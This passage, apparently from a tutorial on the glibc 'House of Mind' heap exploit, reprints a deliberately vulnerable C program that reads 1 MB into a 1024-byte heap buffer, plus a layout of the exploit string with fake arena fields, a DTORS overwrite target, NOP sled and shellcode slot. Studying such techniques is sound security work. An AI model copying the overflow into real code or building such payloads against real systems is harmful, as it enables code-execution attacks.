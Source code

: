 \documentclass[12pt]{article}
\begin{document}
  11) The PREV\_INUSE bit of the chunk after nextchunk
      (nextchunk + nextsize) must be set.
\begin{lstlisting}[language=C]
      nextinuse = inuse_bit_at_offset(nextchunk, nextsize);
      /* consolidate forward */
      if (!nextinuse) { ...
\end{lstlisting}



The path seems long and tortuous, but it is not so much when we control
most situations. Let's go to see the vulnerable program of our friend
K-sPecial:
\newline


\begin{lstlisting}[language=C]
/*
 * K-sPecial's vulnerable program
 */

#include <stdio.h>
#include <stdlib.h>

int main (void) {
   char *ptr  = malloc(1024);        /* First allocated chunk */
   char *ptr2;                       /* Second chunk          */
   /* ptr & ~(HEAP_MAX_SIZE-1) = 0x08000000 */
   int heap = (int)ptr & 0xFFF00000;
   _Bool found = 0;

   printf("ptr found at %p\n", ptr);  /* Print address of first chunk */

   // i == 2 because this is my second chunk to allocate
   for (int i = 2; i < 1024; i++) {
     /* Allocate chunks up to 0x08100000 */
     if (!found && (((int)(ptr2 = malloc(1024)) & 0xFFF00000) == \
                                           (heap + 0x100000))) {
       printf("good heap allignment found on malloc() %i (%p)\n", i, ptr2);
          found = 1; /* Go out */
          break;
       }

   }
        malloc(1024); /* Request another chunk: (ptr2 != av$->$top) */
        /* Incorrect input: 1048576 bytes */
        fread (ptr, 1024 * 1024, 1, stdin); 

        free(ptr);   /* Free first chunk  */
        free(ptr2);  /* The House of Mind */
        return(0);   /* Bye */
}
\end{lstlisting}



Note that the input allows NULL bytes without ending our string. This
makes our task more easy.
\newline


The K-sPecial's exploit create the following string:
\newline


\begin{verbnobox}[\small]
 0x0804a008
 |
 [Ax8][0h x 4][201h x 8][DTORS_END-12 x 246][(409h-Ax1028) x 721][409h] ...
              |                   |
              av->max_fast        bins[0]      size
                                               |
 .... [(&1st chunk + 8) x 256][NOPx2-JUMP 0x0c][40Dh][NOPx8][SHELLCODE]
              |               |                      |
              0x08100000      prev_size (0x08100298) *mem (0x081002a0)
\end{verbnobox}
\end{document}
